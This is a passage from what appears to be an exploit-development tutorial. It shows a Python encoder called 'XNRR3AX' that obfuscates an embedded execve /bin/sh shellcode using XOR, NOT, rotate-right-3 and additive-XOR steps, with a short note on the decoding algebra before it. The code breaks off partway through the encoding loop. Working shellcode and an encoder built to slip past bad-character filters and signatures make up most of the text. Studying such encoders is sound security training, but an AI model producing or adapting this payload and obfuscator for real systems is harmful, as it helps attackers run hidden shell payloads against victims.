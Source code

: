 A4 = B4⊕B3 = (A1⊕A2⊕A3⊕A4) ⊕ (A1⊕A2⊕A3) = A4

A5 = B5⊕B4 = (A1⊕A2⊕A3⊕A4⊕A5) ⊕ (A1⊕A2⊕A3⊕A4) = A5

### XNRR3AX Encoder
Below is the XNRR3AX encoder written in python which encodes the given shellcode and spits out the encoded shellcode.
```python
#!/usr/bin/env python
# Author	: RIZAL MUHAMMED(UB3RSiCK)
# Description	: XNRR3AX Encoder
# Filename 	: xnrr3ax-encoder.py
# XOR, NOT, ROTATE RIGHT 3, ADDITIVE XOR Encoder

from collections import deque
import sys

# Shellcode dumped from the execve /bin/sh
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# Insert bad characters in this list
badchars = [r"\x00"]

encoded_shellcode = ""
encoded_shellcode2 = ""

temp_shellcode = []

for x in bytearray(shellcode):

	# XOR with 0xAA	
	xorred = x^0xAA
	# Applying NOT
	negated = ~xorred

	temp_shellcode.append(int('0x'+'%02x'%(negated & 0xff), 16))

# Convert temp_shellcode list to Deque
dq_es = deque(temp_shellcode)
# Rotate Right 3 times 
dq_es.rotate(3)

bas = list(dq_es)

# Additive XOR

encoded_shellcode += "0x"
encoded_shellcode += "%02x," % bas[0]

encoded_shellcode2 += r"\x"
encoded_shellcode2 += "%02x" % bas[0]

for idx in range(len(bas)-1):
	
	if idx == 0:
		prev_xor = bas[idx]
	
	# XOR next byte with previous xor result	
	xorred = prev_xor^bas[idx+1]
	prev_xor = xorred
		
	encoded_shellcode += "0x"
	encoded_shellcode += "%02x," % (xorred)
```